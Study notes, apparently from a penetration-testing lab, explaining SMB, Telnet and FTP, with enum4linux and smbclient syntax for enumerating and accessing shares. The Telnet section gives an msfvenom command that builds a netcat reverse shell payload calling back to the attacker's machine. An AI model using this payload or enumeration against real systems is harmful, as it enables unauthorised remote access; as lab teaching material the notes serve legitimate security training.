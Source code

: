 ## Understanding SMB

**What is SMB?**

* SMB - ***Server Message Block Protocol*** - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.
* <span style="color:#FF0000">The SMB protocol is known as a response-request protocol</span>, meaning that it transmits multiple messages between the client and server to establish a connection. Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

![[3. Network Services-20240110143304140.webp]]


Once they have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. However, in the case of SMB, these things are done over the network.

## Enumerating SMB

**Enumeration**

<span style="color:#FF0000">Enumeration is the process of gathering information on a target</span> in order to find potential attack vectors and aid in exploitation.

This process is essential for an attack to be successful, as wasting time with exploits that either don't work or can crash the system can be a waste of energy. Enumeration can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.

### Enum4Linux

Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems. It is basically a wrapper around the tools in the Samba package and makes it easy to quickly extract information from the target pertaining to SMB. It's installed by default on Parrot and Kali, however if you need to install it, you can do so from the official [github](https://github.com/portcullislabs/enum4linux).

The syntax of Enum4Linux is nice and simple: **"enum4linux [options] ip"**  

**TAG**            **FUNCTION**  

-U             get userlist  
-M             get machine list  
-N             get namelist dump (different from -U and-M)  
-S             get sharelist  
-P             get password policy information  
-G             get group and member list
<span style="color:#FF0000">-a             all of the above (full basic enumeration)</span>

## Exploiting SMB

**SMBClient**

Because we're trying to access an SMB share, we need a client to access resources on servers. We will be using SMBClient because it's part of the default samba suite. While it is available by default on Kali and Parrot, if you do need to install it, you can find the documentation [here.](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)

We can remotely access the SMB share using the syntax:

`smbclient //[IP]/[SHARE]`      
Followed by the tags:

-U [name] : to specify the user

-p [port] : to specify the port 

## Understanding Telnet

**What is Telnet?**

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

<span style="color:#FF0000">Telnet doesn't have encryption</span>

Usage: 

telnet [ip] {port}

## Exploiting Telnet


A **CVE**, short for **C**ommon **V**ulnerabilities and **E**xposures, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they usually mean the CVE ID number assigned to a security flaw.

### How to start a ICMP listener?
  
Start a tcpdump listener on your local machine.

**If using your own machine with the OpenVPN connection, use:**  

- `sudo tcpdump ip proto \\icmp -i tun0`


We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:
**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

##### Switches:`
` -p = payload

`lhost = our local host IP address (this is **your** machine's IP address)

`lport = the port to listen on (this is the port on **your** machine)

`R = export the payload in raw format


  

## Understanding FTP

**What is FTP?**

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.  

**How does FTP work?**

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.


The FTP server may support either Active or Passive connections, or both. 

- In an **Active FTP** connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a **Passive FTP** connection, the server opens a port and listens (passively) and the client connects to it.



- - - 

